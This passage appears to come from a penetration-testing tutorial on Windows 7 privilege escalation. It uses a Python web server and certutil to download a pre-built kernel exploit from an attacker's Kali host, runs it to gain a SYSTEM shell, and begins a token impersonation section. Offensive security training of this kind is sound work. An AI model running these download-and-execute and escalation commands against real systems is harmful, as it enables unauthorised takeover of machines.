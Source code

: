     After downloading the pre-built exploit executable, we will need to transfer it over to the target system.

1. We can now transfer the exploit executable to the target system, this can be done by starting a local web server on the Kali VM with the SimpleHTTPServer Python module:

        sudo python -m SimpleHTTPServer 80

1. In order to transfer the exploit executable onto the target system, we can utilize the certutil utility. This can be done by running the following command on the target system:

        certutil -urlcache -f http://<KALI-IP>/41015.exe exploit.exe

1. We can now run the exploit executable by running the following command on the target system:

        .\exploit.exe

    As highlighted in the following screenshot, the exploit executable requires the user to specify the target operating system, in our case the target operating system is Windows 7, as a result, we can execute the exploit by running the following command:

        .\exploit.exe 7

    After running the exploit with the operating system specified, it will take a few seconds to complete, after which we should have an elevated shell with NT AUTHORITY/SYSTEM privileges as shown in the following screenshot.

    ![whoami output](whoami-output.png "whoami output")

## Token Impersonation

Adversaries may duplicate then impersonate another user's token to escalate privileges and bypass access controls. An adversary can create a new access token that duplicates an existing token using DuplicateToken(Ex). The token can then be used with ImpersonateLoggedOnUser to allow the calling thread to impersonate a logged-on user's security context.

In this section, we will be exploring the process of performing a token impersonation attack.

For this section, our target system will be running Windows 7. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session

We can begin the process by following the outlined procedures:

1. The first step will involve identifying any potential vulnerabilities that can be exploited through the Potato attack. This can be done through the use of the Windows Exploit Suggester script:

        ./windows-exploit-suggester.py --database <DATABASE.XLSX> --systeminfo <SYSTEMINFO.TXT>

    As highlighted in the following screenshot, we are able to identify a token impersonation vulnerability.

    ![Token impersonation - windows exploit suggester output](token-impersonation-windows-exploit-suggester-output.png "Token impersonation - windows exploit suggester output")

